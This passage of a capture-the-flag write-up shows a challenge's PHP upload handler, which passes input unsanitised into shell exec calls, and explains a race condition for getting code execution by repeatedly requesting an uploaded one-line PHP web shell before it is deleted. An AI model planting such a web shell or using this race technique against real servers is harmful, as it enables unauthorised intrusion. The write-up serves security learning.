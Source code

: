 ```php
        session_start();
        if (isset($_SESSION['user']) && $_FILES['zipfile']['name']) {
          if ($_FILES['zipfile']['size'] > 16000) {
            echo "File above max size of 10kb";
            echo "<a href='?page=upload'>back</a>";
            break;
          }
          $tmp_file = '/var/www/html/tmp/upload_' . session_id();
          exec('mkdir ' . $tmp_file);
          exec('unzip -o ' . $_FILES['zipfile']['tmp_name'] . ' -d ' . $tmp_file);
          echo "Zip contents:";
          passthru("cat $tmp_file/* 2>&1");
          exec("rm -rf $tmp_file");
          echo "<a href='?page=upload'>back</a>";
        }

        break;
      default:

        echo "<form action='?page=login' method='POST'>Username: <input name='user'/>
      Password: <input type='password' name='pass'/>
      <input type='submit' value='Log in'/></form>";
    }
    ?>
  </center>
</body>
</html>
```
## Fall into the rabbit hole
We can see that there is a case `code_submit` to read the flag with sudo privilege, but that's a rabbit hole. I will do the exploit for it later
## Turn into RCE with race
Back to the case `process_upload`, we see that the server first extract our zip file into a folder with a path `/var/www/html/tmp/upload_****`, read the content, then remove the file.

So what happend when we upload a shell, then we access to it **after** the unzip process end, but **before** the server delete it? Is this give us a code execution then?

So to test if the theory work, I create a simple shell with the following content
```php
<?php
system($_GET["cmd"]);
?>
```
named it `shell.php` and zip it to `shell.zip`
Upload the file, then trying to access it (we know the folder name from "File not found" content before), however, we have 404 error. This is because we doesn't access the shell fast, and therefore the file was deleted. With the help of "Burp Intruder", I managed to solve the problem by keep sending the request to the shell (This could be done using Python script too, but I am very tired at the point :joy:). 
